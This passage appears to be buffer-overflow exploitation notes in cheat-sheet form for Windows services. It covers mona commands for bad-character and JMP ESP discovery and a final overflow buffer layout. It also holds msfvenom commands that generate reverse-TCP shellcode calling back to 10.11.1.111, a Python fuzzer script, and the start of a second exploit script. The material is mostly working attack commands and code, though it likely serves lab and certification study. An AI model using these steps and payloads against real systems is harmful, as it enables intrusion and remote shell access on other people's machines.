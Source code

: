 ```
		a. !mona config -set workingfolder c:\logs\%p
	    b. !mona bytearray -b "\x00\x0d"
	    c. Copy from c:\logs\%p\bytearray.txt to python exploit and run again
	    d. !mona compare -f C:\logs\%p\bytearray.bin -a 02F238D0 (ESP address)
	    e. In " data", before unicode chars it shows badchars.
 6. Find JMP ESP with "!mona modules" or "!mona jmp -r esp" or "!mona jmp -r esp -cpb '\x00\x0a\x0d'" find one with security modules "FALSE"
 
	6.1 Then, "!mona find -s "\xff\xe4" -m PROGRAM/DLL-FALSE"
	6.2 Remember put the JMP ESP location in reverse order due to endianness: 5F4A358F will be \x8f\x35\x4a\x5f


7. Generate shellcode and place it:
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.1.111 LPORT=4433 -f python –e x86/shikata_ga_nai -b "\x00"

msfvenom -p windows/shell_reverse_tcp lhost=10.11.1.111 lport=443 EXITFUNC=thread -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f python -v shellcode

8. Final buffer like:
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

```



```
################ sample 1 ################################################
#!/usr/bin/python

import socket,sys

if len(sys.argv) != 3:
    print("usage: python fuzzer.py 10.11.1.111 PORT")
    exit(1)

payload = "A" * 1000

ipAddress = sys.argv[1]
port = int(sys.argv[2])

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ipAddress, port))
    s.recv(1024)
    print "Sending payload"
    s.send(payload)
    print "Done"
    s.close()
except:
    print "Error"
    sys.exit(0)

################ sample 2 ################################################
#!/usr/bin/python
import time, struct, sys
import socket as so

try:
    server = sys.argv[1]
    port = 5555
except IndexError:
    print "[+] Usage %s host" % sys.argv[0]
```
